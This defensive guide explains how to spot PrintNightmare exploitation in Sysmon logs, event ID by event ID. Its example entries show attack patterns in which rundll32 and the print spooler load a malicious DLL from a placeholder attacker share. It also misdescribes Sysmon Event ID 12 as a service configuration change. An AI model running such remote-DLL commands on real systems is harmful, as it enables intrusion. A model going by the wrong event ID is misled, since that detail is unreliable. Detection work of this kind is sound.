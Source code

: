 

Detecting the **PrintNightmare** vulnerability (CVE-2021-34527) exploitation from **Sysmon logs** involves recognizing specific behaviors or patterns associated with the attack. Here's a guide on how to identify it with explanations for each relevant log:

---

### **Steps to Detect PrintNightmare Exploitation**

1. **Check for DLL Injection in the Print Spooler Process**  
   - **Sysmon Event ID:** 7 (Image Load)  
   - **What to Look For:**  
     - A DLL loaded by `spoolsv.exe` that originates from unusual locations (e.g., remote shares or writable directories).  
   - **Why:**  
     - PrintNightmare abuses the Print Spooler service (`spoolsv.exe`) by loading malicious DLLs.  
     - Look for paths like `\\<IP>\share\malicious.dll`.

   Example log:  
   ```
   Event ID: 7  
   Image: C:\Windows\System32\spoolsv.exe  
   Loaded Image: \\<attacker_ip>\malicious.dll  
   ```
   **Explanation:** `spoolsv.exe` should not be loading DLLs from network shares or non-standard locations.

---

2. **Monitor Registry Modifications**  
   - **Sysmon Event ID:** 13 (Registry Set Value)  
   - **What to Look For:**  
     - Changes to keys related to the printer driver.  
     - Registry paths such as:  
       - `HKLM\System\CurrentControlSet\Control\Print\Environment\Windows x64\Drivers`  
   - **Why:**  
     - Attackers often modify these keys to redirect the print driver to a malicious DLL.

   Example log:  
   ```
   Event ID: 13  
   Target Object: HKLM\System\CurrentControlSet\Control\Print\Environment\Windows x64\Drivers\...\DriverPath  
   New Value: \\<attacker_ip>\malicious.dll  
   ```
   **Explanation:** Drivers should not reference DLLs on remote shares or writable directories.

---

3. **Watch for Remote Code Execution via Print Spooler**  
   - **Sysmon Event ID:** 1 (Process Creation)  
   - **What to Look For:**  
     - Commands like:  
       - `rundll32.exe <path to malicious DLL>, <export function>`  
     - Remote PowerShell execution or unusual PowerShell commands.  
   - **Why:**  
     - The attack often involves executing the malicious DLL using tools like `rundll32.exe` or PowerShell.

   Example log:  
   ```
   Event ID: 1  
   Image: rundll32.exe  
   Command Line: rundll32.exe \\<attacker_ip>\malicious.dll,EntryPoint  
   ```
   **Explanation:** The use of `rundll32` to execute DLLs from network shares is suspicious and often indicates exploitation.

---

4. **Unusual Network Connections**  
   - **Sysmon Event ID:** 3 (Network Connection)  
   - **What to Look For:**  
     - Outbound connections from `spoolsv.exe` to untrusted IPs or domains.  
   - **Why:**  
     - The malicious DLL may connect to a command-and-control (C2) server or exfiltrate data.

   Example log:  
   ```
   Event ID: 3  
   Image: C:\Windows\System32\spoolsv.exe  
   Destination IP: <attacker_ip>  
   ```
   **Explanation:** The Print Spooler service rarely makes outbound connections, especially to unknown IPs.

---

5. **File Creation in Unexpected Locations**  
   - **Sysmon Event ID:** 11 (File Create)  
   - **What to Look For:**  
     - Files created in paths related to print spooler exploitation, e.g., `%SYSTEM32%\spool\drivers`.  
   - **Why:**  
     - Attackers often drop files in these locations as part of the attack.

   Example log:  
   ```
   Event ID: 11  
   Image: C:\Windows\System32\spoolsv.exe  
   Target Filename: C:\Windows\System32\spool\drivers\x64\malicious.dll  
   ```
   **Explanation:** New DLLs in spool directories without legitimate updates or installations are suspicious.

---

6. **Abnormal Service Behavior**  
   - **Sysmon Event ID:** 12 (Service Configuration Change)  
   - **What to Look For:**  
     - Changes to the Print Spooler service configuration (`spoolsv.exe`).  
   - **Why:**  
     - Attackers might restart or reconfigure the service during exploitation.

   Example log:  
   ```
   Event ID: 12  
   Service Name: Spooler  
   Start Type: Auto  
   ```
   **Explanation:** Sudden reconfiguration or service restarts might indicate exploitation attempts.

---

### **How to Aggregate These Logs**
Use tools like **SIEM** (e.g., Splunk, Sentinel) or **ELK stack** to search Sysmon logs for patterns like:
1. `Image: spoolsv.exe`
2. DLL loading from remote shares.
3. Registry modifications under Print settings.
4. Process creation involving `rundll32.exe`.
5. Outbound network connections from the Print Spooler process.

---

By focusing on these patterns, you can confidently detect and explain the presence of PrintNightmare activity in your environment.
